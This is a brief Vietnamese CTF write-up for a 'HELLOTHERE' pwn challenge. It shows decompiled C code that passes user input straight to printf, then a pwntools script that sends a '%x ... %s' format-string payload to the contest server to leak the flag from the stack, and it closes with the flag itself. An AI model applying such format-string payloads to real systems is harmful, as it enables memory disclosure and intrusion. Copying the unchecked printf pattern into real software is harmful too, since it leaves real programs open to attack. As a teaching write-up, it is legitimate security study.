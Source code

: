 # HELLOTHERE
Hàm main của Challenge như sau:
```sh
FILE *stream; // [rsp+8h] [rbp-58h]
  char format[32]; // [rsp+10h] [rbp-50h] BYREF
  char s[40]; // [rsp+30h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  buffer_init();
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("The flag file isn't loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 32, stream);
  while ( 1 )
  {
    puts("What is your name?");
    fgets(format, 32, stdin);
    printf("\nHello there, ");
    printf(format);
    putchar(10);
```

Sử dụng lỗi Format String để leak flag đã được đọc và nằm trên stack.
Sử dụng %s để leak giá trị nằm trên stack.

```sh
from pwn import * 
#s = process("./hellothere")
s = remote("pwn-2021.duc.tf", 31918)
s.sendline("%x %x %x %x %x %s")

s.interactive()

```
### FLAG = DUCTF{f0rm4t_5p3c1f13r_m3dsg!}